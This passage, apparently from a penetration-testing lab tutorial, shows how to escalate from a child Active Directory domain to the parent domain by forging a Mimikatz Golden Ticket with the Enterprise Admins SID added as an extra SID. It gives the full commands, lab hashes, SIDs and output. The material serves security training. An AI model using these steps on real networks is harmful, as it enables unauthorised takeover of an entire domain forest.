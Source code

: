 #### Obtaining Enterprise Admins Group's SID using Get-DomainGroup

```powershell-session
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

At this point, we have gathered the following data points:

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Before the attack, we can confirm no access to the file system of the DC in the parent domain.

#### Using ls to Confirm No Access

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

Using Mimikatz and the data listed above, we can create a Golden Ticket to access all resources within the parent domain.

#### Creating a Golden Ticket with Mimikatz

```powershell-session
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
```